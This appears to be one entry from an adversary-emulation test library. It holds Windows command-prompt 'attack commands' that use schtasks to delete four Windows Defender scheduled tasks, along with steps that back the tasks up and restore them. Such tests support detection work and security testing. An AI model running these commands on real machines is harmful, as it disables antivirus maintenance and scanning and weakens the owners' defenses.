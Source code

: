 **Supported Platforms:** Windows

**auto_generated_guid:** 4b841aa1-0d05-4b32-bbe7-7564346e7c76

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
IF EXIST "%temp%\Windows_Defender_Scheduled_Scan.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f )
IF EXIST "%temp%\Windows_Defender_Cleanup.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f )
IF EXIST "%temp%\Windows_Defender_Verification.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f )
IF EXIST "%temp%\Windows_Defender_Cache_Maintenance.xml" ( schtasks /delete /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f )
```

#### Cleanup Commands:

```cmd
schtasks /create /xml "%temp%\Windows_Defender_Scheduled_Scan.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /f
schtasks /create /xml "%temp%\Windows_Defender_Cleanup.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /f
schtasks /create /xml "%temp%\Windows_Defender_Verification.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" /f
schtasks /create /xml "%temp%\Windows_Defender_Cache_Maintenance.xml" /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /f
```

#### Dependencies: Run with `command_prompt`!

##### Description: The Windows Defender scheduled tasks must be backed up first

##### Check Prereq Commands:

```cmd
IF EXIST "%temp%\Windows_Defender_Scheduled_Scan.xml" ( EXIT 0 ) ELSE ( EXIT 1 )
```

##### Get Prereq Commands:

```cmd
schtasks /query /xml /tn "\Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" > "%temp%\Windows_Defender_Scheduled_Scan.xml"
schtasks /query /xml /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cleanup" > "%temp%\Windows_Defender_Cleanup.xml"
schtasks /query /xml /tn "\Microsoft\Windows\Windows Defender\Windows Defender Verification" > "%temp%\Windows_Defender_Verification.xml"
schtasks /query /xml /tn "\Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" > "%temp%\Windows_Defender_Cache_Maintenance.xml"
```

<br/>
<br/>
